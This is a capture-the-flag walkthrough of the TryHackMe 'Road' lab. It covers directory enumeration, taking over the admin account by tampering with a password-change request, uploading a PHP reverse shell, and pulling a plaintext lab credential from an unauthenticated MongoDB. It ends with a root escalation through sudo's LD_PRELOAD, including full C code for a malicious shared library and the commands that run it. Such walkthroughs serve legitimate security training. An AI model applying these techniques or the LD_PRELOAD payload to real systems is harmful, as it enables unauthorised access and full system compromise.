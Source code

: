 # 92 - Road (email hijacking, MongoDB, LD\_PRELOAD exploitation)

Room Link --> [https://tryhackme.com/room/road](https://tryhackme.com/room/road)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
SSH port 22
Port 80 HTTP
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" %}
```bash
gobuster dir -e -u http://road.thm/ -t30 -w /usr/share/dirb/wordlists/common.txt -o gobuster.txt  -xjs,txt,php

index.html
phpMyAdmin
v2
```
{% endcode %}

{% code overflow="wrap" %}
```bash
gobuster dir -e -u http://road.thm/v2/ -t30 -w /usr/share/dirb/wordlists/common.txt  -xjs,txt,php

/v2/admin
/v2/index.php
/v2/lostpassword.php
/v2/profile.php
```
{% endcode %}

We have to register an account.

### Initial Access

The profile section displays the user profile and also an admin email which is probably the admin's username.&#x20;

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

We can think about hijacking the email, we have a section to change the password of the registered user having the previous password, we can try to enter my username and credentials and capture the request using Burp Suite and change my username to admin email.

This way we can change the password of the Administrator user and we will have access to the file upload part.

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Intercept with burpsuite and change the username to admin username.

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Login in as admin:

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Now we can upload a php reverse shell on the server.

After uploading, looking for where it was uploaded to, inspecting the source code and searching for `/v2` we see a dir, i checked it out but:

<figure><img src=".gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Navigating to --> [http://road.thm/v2/profileimages/rev.php](http://road.thm/v2/profileimages/rev.php)

And the rev shell was triggered.

<figure><img src=".gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to webdeveloper

We enumerate the box using `ss -tl` .

```bash
www-data@sky:/home/webdeveloper$ ss -tl
State   Recv-Q  Send-Q     Local Address:Port       Peer Address:Port  Process  
LISTEN  0       4096           127.0.0.1:27017           0.0.0.0:*              
LISTEN  0       151            127.0.0.1:mysql           0.0.0.0:*              
LISTEN  0       4096       127.0.0.53%lo:domain          0.0.0.0:*              
LISTEN  0       128              0.0.0.0:ssh             0.0.0.0:*              
LISTEN  0       70             127.0.0.1:33060           0.0.0.0:*              
LISTEN  0       511            127.0.0.1:9000            0.0.0.0:*              
LISTEN  0       511                    *:http                  *:*              
LISTEN  0       128                 [::]:ssh                [::]:*       
```

MongoDB is running on 27017

Search google for MongoDB exploit, and found the [hacktricks blog](https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb)

```bash
www-data@sky:/home/webdeveloper$ mongo 127.0.0.1:27017
```

And we are in the DB interface.

```
> show dbs;
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use admin
switched to db admin
> show collections
system.version
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
> 
```

We got credentials for "webdev..."

`webdeveloper : BahamasChapp123!@#`&#x20;

So we ssh into the account.

### Priv Esc to root

`sudo -l`&#x20;

```bash
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```

#### LD\_PRELOAD exploitation

`env_keep+=LD_PRELOAD`. I searched for what LD\_PRELOAD is. It allowed passing shared libraries that would be loaded when the program start.

I found a [great post on using LD\_PRELOAD to escalate privileges](https://www.hackingarticles.in/linux-privilege-escalation-using-ld\_preload/). I used the provided code to get root

We will create a shell in C:

{% code title="shell.c" %}
```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
{% endcode %}

Now compile it with gcc

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```

```bash
webdeveloper@sky:~$ cd /tmp
webdeveloper@sky:/tmp$ vim shell.c
webdeveloper@sky:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:2: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    6 |  setgid(0);
      |  ^~~~~~
shell.c:7:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 |  setuid(0);
      |  ^~~~~~
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
# whoami
root
```

Done



